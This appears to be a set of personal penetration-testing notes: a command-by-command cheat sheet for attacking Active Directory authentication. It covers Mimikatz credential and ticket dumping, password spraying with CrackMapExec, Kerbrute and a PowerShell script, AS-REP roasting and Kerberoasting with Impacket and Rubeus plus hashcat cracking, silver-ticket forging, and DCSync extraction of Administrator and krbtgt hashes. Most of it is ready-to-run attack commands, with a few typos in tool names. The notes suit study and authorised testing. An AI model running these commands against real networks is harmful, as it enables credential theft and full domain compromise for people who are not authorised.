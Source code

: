 # AD authentication attacks

## Cached creds

### Hashes

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

With the `SeDebugPrivilege` privilege (works with __local admins__):
```
PS > .\mimikatz.exe
m $ privelege::debug
m $ sekurlsa::logonpasswords
```

### Tickets

In another terminal:
```
PS2 > dir \\some_other_host\smb\some_share # in another terminal
```
and back in Mimikatz:
```
m $ sekurlsa::tickets
```

## Authentication attacks

### Passwords

#### Lockout

Lockout threshold for password attacks:
```
net accounts
```

#### LDAP password attack using AD authentication - Principle

LDAP query with user and password authentication:
```
# Building the query
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = ($domainObj.PdcRoleOwner).Name
$searchString = "LDAP://"
$searchString += $pdc + "/"
$distinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$searchString += $distinguishedName

# Authentication attack
New-Object System.DirectoryServices.DirectoryEntry($searchString, "someuser", "somepass")
```

#### LDAP spray password attack - "Spray-passwords" script 

Spray-passwords on GitHub: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```
PS > powershell -ep bypass
PS > .\Spray-Passwords.ps1 -Pass somepass -Admin
```

#### SMB attacks - crackmapexec

CrackMapExec GitHub: https://github.com/Porchetta-Industries/CrackMapExec

```
kali $ vi userstohack.txt
kali $ crapmapexec smb $targetIp -u userstoattack.txt -p 'somepassword' -d targetorganisation.com --continue-on-success
kali $ crapmapexec smb $targetIpRange.1-254 -u user -p 'password' -d targetorganisation.com --continue-on-success
```
Warning: can lock users out

#### Kerbrute

Kerbrute on GitHub: 
- https://github.com/ropnop/kerbrute
- https://github.com/ropnop/kerbrute/releases

```
PS > type userstohack.txt
PS > .\kerbrute_windows_amd64.exe passwordspray -d targetorg.com .\userstohack.txt 'somepassword'
```

### AS-REQ Roasting

Takes _Do not require Kerberos preauthentication_ to be enabled (disabled by default).

#### From Linux with Impacket-GetNPUsers

Impacket-GetNPUsers on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp -request -outputfile hashes_as-rep_to_roast.txt organisation.com/any_user
$ hashcat --help | grep -i 'kerberos' # look for "AS-REP" in this case
$ hashcat -m 18200 hashes_as-rep_to_roast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

```
c:\path\to\rubeus.exe asreproast /nowrap
```
and `hashcat` back again:
```
hashcat -m 18200 hashes_as-rep_to_roast_from_windows.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

Rubeus on GitHub: https://github.com/GhostPack/Rubeus
```
PS > .\Rubeus.exe asreproast /nowrap
```
Copy the hash and crack it on Kali with `hashcat`:
```
sudo hashcat -m 18200 hashes_retrieved_with_Rubeus_on_Windows /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Users to AS-REQ roast

To get only the users with option _Do not require Kerberos preauthentication_ enabled on Linux:
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp # No options
```
and on Windows:
```
Import-Module c:\path\to\powerview.ps1
Get-DomainUser -PreauthNotRequired
```

### Kerberoasting - TGS-REP on SPN

#### With Impacket-GetUserSPNs

Impacket-GetUserSPNs on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
```
$ impacket-GetUserSPNs -request -dc-ip $TargetDomainControlerIp organisation.com/someuser
$ hashcat --help | grep -i kerberos
$ hashcat -m 13100 spn_hash_to_hack.txt /usr/share/wordlist/rockyou.txt -r myrulefile.rule --force
```

#### With Rubeus

```
PS c:\path\to\rubeus> .\Rubeus.exe kerberoast /outfile:spn_hash_to_hack.txt
```
and crack it with `hashcat`. With `GenericWrite` or `GenericAll` permissions on another AD user: 
- https://adsecurity.org/?p=3658 (to avoid)
- https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)

### Silver ticket

Takes _Privileged Account Certificate_ (PAC) not to be enabled (usual): https://adsecurity.org/?p=2011
```
PS > iwr -UseDefaultCredentials http://internalwebsite # access denied
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # get the webserver's service NTLM hash
PS > whoami /user # get the domain SID: S-1-5-21-xtake-ytake-ztake-donottaketheuserRID
mimikatz # kerberos::golden /sid:domainsid /domain:organisation.com /ptt /target:internalwebsite.organisation.com /service:http /rc4:ntlmhash /user:anyuser
mimikatz # exit
PS > klist
PS > iwr -UseDefaultCredentials http://internalwebsite # access granted
```

### Domain Controler Sync

Needs:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered

which are provided by:
- Domain Admins
- Enterprise Admins
- Administrators (NOT local admins)

DCSync attack details: https://adsecurity.org/?p=2398#MimikatzDCSync \
Impacket-Secretsdump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

#### From Linux

```
impacket-secretsdump -just-dc-user someuser organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
hashcat -m 1000 ntlm_hash_from_impacket-secretsdump /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

impacket-secretsdump -just-dc-user Administrator organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
impacket-secretsdump -just-dc-user krbtgt organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
```

#### From Windows

From a local admin account (for example):
```
PS > c:\path\to\mimikatz.exe
mimikatz # lsadump::dcsync /user:mydomainname\target_username
$ hashcat -m 1000 ntlm_hash_from_mimikatz /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

mimikatz # lsadump::dcsync /user:mydomainname\Administrator
mimikatz # lsadump::dcsync /user:mydomainname\krbtgt
```



